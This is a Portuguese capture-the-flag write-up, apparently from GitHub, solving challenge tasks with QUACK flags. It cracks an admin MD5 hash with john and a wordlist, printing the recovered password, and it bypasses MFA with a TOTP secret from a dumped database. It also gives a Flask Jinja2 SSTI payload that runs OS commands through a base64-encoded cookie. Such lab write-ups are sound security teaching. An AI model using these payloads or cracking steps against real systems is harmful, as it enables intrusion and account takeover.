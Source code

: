 QUACK{4DM1N_15_N0T_S0_S3CUR3}


## **Task Hash - Dehash**
Qual a senha do usuário `admin`?
### **Solução**
`bopscrk -i`
(depois de várias tentativas e muitas horas)

![dehashed](https://github.com/user-attachments/assets/dcaf8f84-6006-4fa8-88fb-e9eb40de63b6)

`john hash.txt --wordlist=duckywalletV2.txt --format=Raw-MD5 --rules=best64 --fork=8`

admin:DuckyW4ll3t!!


## **Task Endpoint - MFA (CONTINUAÇÃO)**
(DPS DE 1-2 dias, muitas horas e muito fuzzing...)

A RESPOSTA TAVA NA CARA O TEMPO TODO

lembrei da BD dumpada, e da coluna totp_secret... 

(foi só parar e raciocinar) 

Ás vezes a parte manual é importante e não só a automatizada com tools

![mfa2](https://github.com/user-attachments/assets/8ccf3407-8a25-4fb8-83ef-0fc0ef12efbb)

QUACK{T0TP_g3n3r4t0r_1s_t00_much_d4ng3r0u5}


## **Task Injection - Flask**
Obtenha informações internas da aplicação Flask.
### **Solução**
(usei as dicas mas já suspeitava q era para explorar um SSTI num cookie, 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)

usando https://cyberchef.io

`{{7*7}}`:703b179695b26fc01e4b18e3e605de2a (hash MD5 admin)
(base64) -> e3s3Kjd9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==

![ssti](https://github.com/user-attachments/assets/e0e88ff2-f2e4-44a8-88f2-ad2f283196ea)

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

https://github.com/payloadbox/ssti-payloads

Tentando alguns payloads chegamos a:
`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`:703b179695b26fc01e4b18e3e605de2a (hash MD5 admin)
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdpZCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
